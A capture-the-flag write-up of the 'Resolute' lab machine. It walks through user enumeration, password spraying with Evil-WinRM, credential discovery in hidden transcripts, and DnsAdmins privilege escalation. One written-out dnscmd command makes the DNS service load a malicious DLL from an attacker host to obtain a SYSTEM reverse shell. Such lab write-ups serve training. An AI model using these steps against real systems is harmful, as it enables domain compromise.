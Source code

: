 # Resolute

First we will scan all the ports in the system and then the version of each:

![Screenshot](images/Screenshot_6.jpg)

Using tools such as enum4linux we can find the list of users in the system and also the default password used by the sysadmins: "Welcome123!":


## Getting access as melanie

![Screenshot](images/Screenshot_1.jpg)

As the Winrm port is open, we will create a loop to check each of the users with the default password “Welcome123!” using Evilwinrm:

![Screenshot](images/Screenshot_2.jpg)

We find out that “melanie” user uses the default password:

![Screenshot](images/Screenshot_3.jpg)


## From Melanie to ryan

With that, we already have the user.txt flag. We need to escalate to user “ryan” before becoming administrators if the system. For that, we can read a hidden file in the also hidden directory C:\PSTranscripts, where we will find ryan's password and access with that user using Evilwinrm again.


## From dnsadmin (ryan) to SYSTEM

Checking ryan's privileges in the domain, we find out he is a **dnsadmin**. This allows us to escalate privileges as explained [in this great blog](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

First, we will create a malicious DLL file using Msfvenom:

![Screenshot](images/Screenshot_10.jpg)

We can test this with “rundll32”

![Screenshot](images/Screenshot_12.jpg)

And we see the connection is correct:

![Screenshot](images/Screenshot_13.jpg)

Then we will set the malicious DLL to execute as “Server level plugin dll” in the DNS service:

```
dnscmd /config /serverlevelplugindll \\10.10.14.211\RIC\ric.dll
```

And check it using Powershell:

```
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![Screenshot](images/Screenshot_14.jpg)

The file is accessed correctly by RESOLUTE machine:

However, this did not work. The architecture was incorrect or there was an antivirus which did not allow us to do this! So we will create a simple reverse shell with Msfvenom and setting the architecture correctly:

![Screenshot](images/Screenshot_22.jpg)

We will set the patload again and list the value:

![Screenshot](images/Screenshot_23.jpg)

![Screenshot](images/Screenshot_24.jpg)

Finally, we get a shell as the user SYSTEM:

![Screenshot](images/Screenshot_25.jpg)
